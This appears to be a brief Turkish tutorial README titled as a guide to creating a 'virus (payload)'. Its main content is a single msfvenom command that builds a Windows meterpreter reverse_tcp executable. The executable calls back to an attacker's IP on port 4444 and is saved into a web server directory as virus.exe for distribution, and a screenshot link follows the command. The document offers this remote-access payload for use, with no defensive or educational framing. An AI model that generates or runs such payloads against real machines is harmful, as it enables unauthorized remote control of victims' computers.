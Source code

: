 ## Selam Ben Linax Ve Bugun Sizlere Nasil Virus(payload) Olusturulucagini Anlaticam.
## Oncelikle Terminali Aciyoruz Ve msfvenom Ile Komutumuzu Yaziyoruz.
## msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local Ipniz> LPORT=4444 -f exe > /var/www/html/virus.exe 
![Screenshot_2022-07-17_06_47_02](https://user-images.githubusercontent.com/100614268/179394878-575fbd5b-654c-4063-8cb0-03b0e793005d.png)
